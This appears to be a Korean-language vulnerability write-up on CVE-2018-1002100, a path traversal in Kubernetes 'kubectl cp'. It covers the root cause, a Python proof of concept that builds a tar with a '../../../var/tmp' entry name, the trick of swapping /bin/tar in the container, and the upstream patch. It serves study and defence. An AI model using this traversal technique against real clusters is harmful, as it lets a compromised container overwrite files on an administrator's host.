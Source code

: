 ```yaml
---
layout: post
title: "CVE-2018-1002100"
date: 2021-12-28
categories: Kubernetes
tags: [kubernetes, cve]
---
```


# 개요

|     취약한 버전     |           취약점 종류           |                                 취약점 설명                                  |
| :-----------------: | :-----------------------------: | :--------------------------------------------------------------------------: |
| kubernetes: ~v1.9.5 | overwrite arbitrary local files | “kubectl cp” 명령어를 통해, 컨테이너에서 노드의 파일을 덮어쓸 수 있는 취약점 |

---

# 배경지식

아래는 pkg/kubectl/cmd/cp.go 파일을 볼 때, 알아야 하는 함수들이다.  
path.join 함수는 입력된 경로들을 순차적으로 탐색했을 때, 나올 수 있는 하나의 경로를 반환하는 함수이다.

```
package main
import (
	"fmt"
	"path"
)

func main() {
	fmt.Println(path.Join("a", "/b", "/c"))
	fmt.Println(path.Join("a", "/b/c"))
	fmt.Println(path.Join("a/b", "/c"))

	fmt.Println(path.Join("a/b", "../../../xyz"))

	fmt.Println(path.Join("", ""))
	fmt.Println(path.Join("a", ""))
	fmt.Println(path.Join("", "a"))
}
```

위 코드의 실행 결과는 다음과 같다.

![](https://github.com/GroomPang/Research/blob/main/%EA%B7%B8%EB%A6%BC4.png?raw=true)

path.clean 함수는 입력된 경로와 동등한 가장 짧은 경로를 반환하는 함수이다.

```
package main
import (
	"fmt"
	"path"
)

func main() {
	paths := []string{
		"a/c",
		"a//c",
		"a/c/.",
		"a/c/b/..",
		"/../a/c",
		"/../a/b/../././/c",
		"",
	}
	for _, p := range paths {
		fmt.Printf("Clean(%q) = %q\n", p, path.Clean(p))
	}
}
```

위 코드의 실행 결과는 다음과 같다.

![](https://github.com/GroomPang/Research/blob/main/%EA%B7%B8%EB%A6%BC3.png?raw=true)

---

# Root Cause 분석

“kubectl cp” 명령어를 수행하면, tar 아카이브 파일을 컨테이너와 호스트가 주고 받는데, 이때 호스트는 kubectl 내에 구성된 cp.go 파일에서 tar 파일을 처리하는 루틴을 구현해 놓았고, 컨테이너에서는 /bin/tar 바이너리를 사용해서 tar 아카이빙을 수행한다.

이때, 호스트에서 전송받은 tar 아카이브 파일이 “../../../../../tmp/foo”와 같이, 상위 디렉토리로 거슬러 올라가도록 만들어 놓으면, 파일을 해제할 때, 이를 그대로 올라가 파일을 덮어쓴다. 즉, path traversal이 일어나는 것이고, /bin/tar 바이너리를 공격자가 임의로 수정하면, “kubectl cp” 명령이 해당 컨테이너를 대상으로 수행될 때, 항상 원하는 결과를 반환할 수 있다. 따라서, 위에서 재연할 때는, 미리 구현한 특정 tar 아카이브를 읽도록 /bin/tar 실행 파일을 수정하였다.

```
func untarAll(reader io.Reader, destFile, prefix string) error {
	entrySeq := -1

	// TODO: use compression here?
	tarReader := tar.NewReader(reader)
	for {
		header, err := tarReader.Next()
		if err != nil {
			if err != io.EOF {
				return err
			}
			break
		}
		entrySeq++
		mode := header.FileInfo().Mode()
		outFileName := path.Join(destFile, header.Name[len(prefix):])
		...
}
```

header.Name[len(prefix):]은 header.Name에서 prefix를 제외하고난 파일명이다.

위에서도 봤듯이 path.Join은 단순히 인자로 들어간 경로들을 차례로 접근했을 때, 하나의 단순화된 경로를 반환하는 함수이다. 즉, path traversal로 루트 디렉토리로 파고들어가는 것이 가능하다.

`kubectl cp mongodb:/something ./123`

- prefix: something
- destFile: ./123
- header.Name: 아카이브에 있는 파일/디렉토리 명
- outFileName: destFile과 header.Name에서 prefix를 제외하여 path.Join한 결과

→ 원래라면, prefix를 빼고, destFile을 상위 디렉토리로 하여 파일을 복사해오는 것이지만, path traversal이 일어나기 때문에, 상위 디렉토리로 올라가게 된다.

---

# Exploit 재연

```
#!/usr/bin/python3

import tarfile
import tempfile
import os
import base64

with tarfile.TarFile.open("sample.tar", "w") as tar:
  with tempfile.NamedTemporaryFile() as text:
    text.write(b"Hello World\n")
    text.flush()

    tar.add(text.name,
      arcname="../../../../../../../var/tmp/unexpected")

  tar.close()
```

위 파일은 sample.tar를 만드는 코드로, 위를 수행하면, sample.tar 아카이브가 만들어지는데, 이를 확인해보면 다음과 같다. 파일명을 자세히 보면, 상위 디렉토리로 계속 거슬러 올라가서 /var/tmp/unexpected 파일을 압축한 것임을 알 수 있다.

![](https://github.com/GroomPang/Research/blob/main/%EA%B7%B8%EB%A6%BC5.png?raw=true)

그리고, 컨테이너 내에서의 tar 파일을 지우고, 이를 쉘 스크립트 파일로 “cat sample.tar”을 하도록 만든다면, 쿠버네티스의 관리자가 공격자의 컨테이너를 대상으로 “kubectl cp” 명령어를 쳤을 때, 다음과 같이 공격에 성공할 수 있다.

![](https://github.com/GroomPang/Research/blob/main/%EA%B7%B8%EB%A6%BC6.png?raw=true)

---

# 패치 내용

```
// clean prevents path traversals by stripping them out.
// This is adapted from https://golang.org/src/net/http/fs.go#L74
func clean(fileName string) string {
	return path.Clean(string(os.PathSeparator) + fileName)
}

unc untarAll(reader io.Reader, destFile, prefix string) error {
	entrySeq := -1

	// TODO: use compression here?
	tarReader := tar.NewReader(reader)
	for {
		header, err := tarReader.Next()
		if err != nil {
			if err != io.EOF {
				return err
			}
			break
		}
		entrySeq++
		mode := header.FileInfo().Mode()
		outFileName := path.Join(destFile, clean(header.Name[len(prefix):]))
		baseName := path.Dir(outFileName)
		...
}
```

outFileName, 즉, 파일을 호스트에 덮어 쓸 때, path.Clean을 수행하였고, untarAll에서 해당 함수 한 번 호출하도록 업데이트한 이후, 1.9.6에서 1.13.4까지 이 패치가 지속되었다. 아래는 path.clean 함수의 수행 결과를 보여주는데, 이러한 조치가 path traversal을 막는 적절한 조치였다는 것을 확인할 수 있다.

```
package main

import (
        "fmt"
        "os"
        "path"
)

func clean(fileName string) string {
        return path.Clean(string(os.PathSeparator) + fileName)
}

func main() {
        fmt.Println(clean("../../../../../../../var/tmp/unexpected"))
```



![](https://github.com/GroomPang/Research/blob/main/%EA%B7%B8%EB%A6%BC7.png?raw=true)

---

# 참고자료

National Vulnerability Database, “CVE-2018-1002100 Detail”, [link](https://nvd.nist.gov/vuln/detail/CVE-2018-1002100)

Michael Hanselmann, “OpenShift Source-to-Image build privilege escalation to root”, [link](https://hansmi.ch/articles/2018-04-openshift-s2i-security)